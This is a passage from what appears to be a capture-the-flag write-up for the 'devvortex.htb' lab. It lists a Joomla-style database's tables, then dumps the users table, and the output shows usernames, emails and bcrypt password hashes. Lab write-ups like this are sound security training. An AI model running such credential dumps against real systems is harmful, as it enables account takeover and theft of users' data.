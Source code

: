 ```
| sd4fg_privacy_requests        |
| sd4fg_redirect_links          |
| sd4fg_scheduler_tasks         |
| sd4fg_schemas                 |
| sd4fg_session                 |
| sd4fg_tags                    |
| sd4fg_template_overrides      |
| sd4fg_template_styles         |
| sd4fg_ucm_base                |
| sd4fg_ucm_content             |
| sd4fg_update_sites            |
| sd4fg_update_sites_extensions |
| sd4fg_updates                 |
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)

```
One table seems special this is `sd4fg_users` because it can contain the credentials we are looking for, so we list all the contents of that table.
```
SELECT * FROM sd4fg_users;
SELECT * FROM sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-28 13:34:43 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
```